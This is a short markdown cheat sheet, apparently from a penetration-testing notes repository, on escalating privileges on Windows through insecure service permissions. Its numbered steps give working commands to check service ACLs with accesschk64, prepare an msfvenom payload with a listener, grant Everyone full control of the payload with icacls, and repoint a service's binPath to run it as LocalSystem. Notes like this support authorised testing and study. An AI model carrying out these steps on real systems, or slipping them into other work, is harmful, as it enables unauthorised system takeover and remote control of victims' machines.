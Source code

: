 # Insecure Service Permissions

## Example:

### 1: Use accesschk64.exe (sysinternals)

    accesschk64.exe -qlc SERVICE

### 2: msfvenom payload, then setup listener

### 3: Grant full access to payload 

    icacls c:\path\to\payload.exe /grant Everyone:F

### 4: 

    sc config SERVICE binPath="c:\path\to\payload.exe" obj= LocalSystem

### 5: Restart Service
